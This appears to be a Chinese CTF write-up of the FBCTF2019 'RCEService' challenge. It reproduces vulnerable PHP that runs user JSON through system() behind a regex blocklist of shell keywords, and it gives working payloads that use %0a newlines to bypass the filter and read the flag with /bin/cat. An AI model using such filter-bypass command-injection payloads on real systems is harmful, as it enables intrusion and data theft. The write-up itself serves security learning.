 ```yaml
---
layout: mypost
title: "[FBCTF2019]RCEService"
categories: [ctf_wp]
---
```


（师傅们注意！！！这个题其实在比赛的时候是给出源码的，这个题如果纯黑盒rce的话确实还是有一点困难的，一开始看了20分钟，各种字典都跑了一遍确实是没思路，当然我是小菜鸡，下面把源码给师傅们奉上）

（还有就是这个题并不难，我更多的是想拿这个题做一个引子，让大家去理解一下正则表达式的其中一种形式，当然也是ctf里面最常见的一种形式，具体可以去看这篇文章---CTF中那些奇奇怪怪的正则表达式）

```
<?php

putenv('PATH=/home/rceservice/jail');

if (isset($_REQUEST['cmd'])) {
  $json = $_REQUEST['cmd'];

  if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];
    if ($cmd !== NULL) {
      system($cmd);
    } else {
      echo 'Invalid input';
    }
    echo '<br/><br/>';
  }
}

?>
```

1.接下来就是一个白盒审计的问题了，这个源码还是很好理解的哈，简单解释一下吧，变量json接受传参，先确保是一个str类型的，然后经过一个正则表达式的过滤，最后没有被正则匹配过滤掉的就把它赋值到变量cmd，然后用一个json\_decode的函数来处理这个变量cmd（这个函数是专门用来处理json这种数据类型的，所以一开始在url中传值的时候就要传成json的数据格式，众所周知就是键值对的格式哈），最后就会带到system这个函数里去执行我们的payload

2.这题的重点还是针对于这个正则匹配的绕过，这个也很简单，一个%0a就行，因为这种做多了大家都知道，这个正则表达式的后面没有加特殊的元字符，所以直接%0a就行哈，这题我的第一个payload就是

```
\{\%0a"cmd":"ls%20/"}
```

但是并没有回显根目录下的内容，而且还返回了Hacking attempt detected，当时我就试着去往它后面加一个%0a，结果真的可以（这里真的是运气，完全不知道为什么，这个之后经过师傅的讲解以及自己对正则表达式的调试终于是弄明白了，但网上对这个payload的原理真的是一点解释也没有，读者们想要弄懂可以看我的这篇文章---CTF中那些奇奇怪怪的正则表达式，里面详细讲解了关于这种情况的正则表达式的运作原理，同时也会去给大家展示这题的另一种玩法）

3.然后就开始找flag在哪里，具体找的过程和payload就不演示了，最终发现在/home/rceservice这个目录下面

![](屏幕截图-2023-09-13-201622.png)

然后就开始cat，但发现怎么cat这个flag文件，它都是啥也不显示，感觉是不是把cat给过滤了，然后又去审计了一遍源码，发现了第一行那串神奇的代码，学习后知道了putenv('PATH=/home/rceservice/jail');修改了环境变量，所以只能使用绝对路径使用cat命令，`cat`命令在/bin文件夹下（这个常识哈）

4.然后构造最终payload

```
?cmd=\{\%0a"cmd":"/bin/cat%20/home/rceservice/flag"%0a}
```

![](屏幕截图-2023-09-13-202039.png)

最后唠叨一句哈，我觉得这题并不难，重点还是那两个%0a，大家不明白的真的可以去看我的这篇文章---CTF中那些奇奇怪怪的正则表达式，我会给出一些自己的见解

Finish!!!